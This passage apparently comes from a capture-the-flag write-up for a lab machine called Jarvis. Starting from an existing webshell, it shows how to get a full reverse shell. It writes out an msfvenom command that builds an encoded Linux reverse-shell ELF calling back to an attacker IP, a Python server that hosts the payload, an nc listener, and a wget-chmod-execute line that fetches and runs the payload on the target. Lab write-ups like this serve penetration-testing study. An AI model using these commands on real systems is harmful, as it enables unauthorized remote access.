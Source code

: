 Running this works! That is a remote webshell:

![webshell](./jarvis/webshell.png)

This web shell can now be used to get a dedicated shell on the target:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 7777
python3 -m http.server 7777
# listen for callback
nc -nvlp 6969
# send command to target through Python webshell script:
wget http://10.10.14.23:7777/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &
```

And that gets the dedicated shell, but not `user.txt`? Time to enumerate the host...

![access](./jarvis/access.png)
